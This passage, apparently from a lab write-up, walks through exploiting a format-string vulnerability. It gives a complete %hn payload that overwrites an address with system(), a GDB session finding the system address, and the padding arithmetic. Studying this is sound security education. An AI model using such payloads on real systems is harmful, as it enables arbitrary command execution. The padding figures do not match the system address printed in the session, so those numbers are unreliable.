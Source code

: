 We now have the offset on which we will write our address of `system` function in two parts, but we know that `%hn` will the number of characters printed with `printf` we have to print `len(address(system))` length of garbage. Since our string is limited in size, we cant do that as well. For that we need to take help from the `%x` format specifier. `%(n)x` format specifier will print `(n)` number of spaces in the output but will not increase the size of input string. :cool:

The final payload may look like this
``./string `python -c 'import struct; print "sh;#" + struct.pack("<I", 0x804a010) + struct.pack("<I", 0x804a012) +"%10948x%11$hn%13068x%12$hn"'` ``
Now lets take a look at how I found the address of the system,
```bash
$ gdb ./string
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
62 commands loaded for GDB 7.11.1 using Python engine 3.5
[*] 6 commands could not be loaded, run `gef missing` to know why.
GEF for linux ready, type `gef' to start, `gef config' to configure
62 commands loaded for GDB 7.11.1 using Python engine 3.5
[*] 6 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./string...(no debugging symbols found)...done.
gef➤  b main
Breakpoint 1 at 0x804854f
gef➤  r
Starting program: /vagrant/Lecture6/string

Breakpoint 1, 0x0804854f in main ()

gef➤  p system
$1 = {<text variable, no debug info>} 0x555c2da0 <system>
```

Now we have the address of `system` we now need to covert this address to the count for `%(n)x`. And that we will do in two parts.
```python
>>> 0x2ad0 - 12
10948
>>> 0x555c - 0x2250
13068
```
